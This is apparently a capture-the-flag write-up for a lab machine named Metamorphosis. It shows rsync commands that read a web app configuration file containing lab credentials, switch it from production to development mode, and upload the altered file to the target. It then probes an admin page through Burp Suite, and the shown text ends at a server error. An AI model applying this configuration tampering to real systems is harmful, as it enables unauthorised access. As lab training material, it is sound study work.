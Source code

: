 <img width="1205" height="322" alt="image" src="https://github.com/user-attachments/assets/a45f9d98-94c9-4d8c-874c-a23ca35ad53d" />

<br>
<br>
<br>

```bash
:~/Metamorphosis# ls
access.conf  bluezone.ini  debconf.conf  ldap.conf  lvm.conf  mysql.ini  php.ini  ports.conf  resolv.conf  screen-cleanup.conf  smb.conf  webapp.ini
```

```bash
:~/Metamorphosis# cat webapp.ini
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
```

```bash
:~/Metamorphosis# nano webapp.ini
```

```bash
:~/Metamorphosis# cat webapp.ini
[Web_App]
env = dev
user = tom
password = theCat

[Details]
Local = No
```

```bash
:~/Metamorphosis# rsync -aPv webapp.ini rsync://10.201.123.26/Conf/webapp.ini
sending incremental file list
webapp.ini
             71 100%    0.00kB/s    0:00:00 (xfr#1, to-chk=0/1)

sent 186 bytes  received 41 bytes  454.00 bytes/sec
total size is 71  speedup is 0.31
```

<p align="left">Navigated to <strong>/admin/index.php<br><img width="1200px" src="https://github.com/user-attachments/assets/91298f9f-bf31-4293-89ed-daea48e913ca"></p>

<p align="left">Viewed page source. Identified action=config.php, method=POST, name:'username'.<img width="1200px" src="https://github.com/user-attachments/assets/98ea9d9a-5c2f-4a65-ade5-c457592c58a1"></p>

<p align="left">Launched Burp Suite and enabled FoxyProxy.<br>Refreshed.<br><p><img width="1200px" src="https://github.com/user-attachments/assets/fbb9e7d1-fd7a-4cfd-9cbc-dd7fa6beef8e"></p>

<p align="left">Submitted query<strong><ins>tom</ins></strong><br>Response containd <strong><ins>500 Internal Server Error</ins></strong><p> and redirected to <strong><ins>config.php</ins></strong>.<img width="1200px" src="https://github.com/user-attachments/assets/5bce8b58-cbe6-431e-b2ad-863b6505de47"></p>
